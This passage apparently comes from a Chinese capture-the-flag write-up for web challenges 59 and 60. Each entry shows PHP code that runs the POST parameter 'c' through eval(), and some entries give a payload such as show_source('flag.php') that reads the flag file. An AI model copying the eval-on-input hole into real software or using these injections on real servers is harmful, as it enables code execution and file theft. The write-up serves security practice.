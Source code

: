 > 
Payload


```
c=readfile('flag.php');

```

## web59

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload


```
c=show_source('flag.php');

```

## web60

> 
源码


```
&lt;?php

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}

```

> 
Payload
